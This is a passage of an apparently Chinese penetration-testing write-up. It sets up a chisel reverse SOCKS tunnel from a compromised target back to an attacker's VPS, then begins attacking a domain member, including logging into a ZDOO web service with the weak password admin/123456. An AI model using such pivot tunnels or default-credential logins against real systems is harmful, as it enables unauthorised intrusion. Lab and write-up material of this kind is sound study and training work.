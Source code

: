 ## 代理搭建

```bash
VPS: ./chisel server -p 7000 --reverse
靶机：./chisel client VPS:7000 R:0.0.0.0:7001:socks
```

## 攻击域成员一 (MS17-010)

访问存在 Web 服务的

[![](assets/1707954847-1240f70896b7d8d5f1488a7ff0543ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209163821-94e50e9e-c726-1.png)

发现是 ZDOO，搜索相关漏洞后无果

### 弱口令登录

尝试弱口令登录，成功以`admin/123456`登入
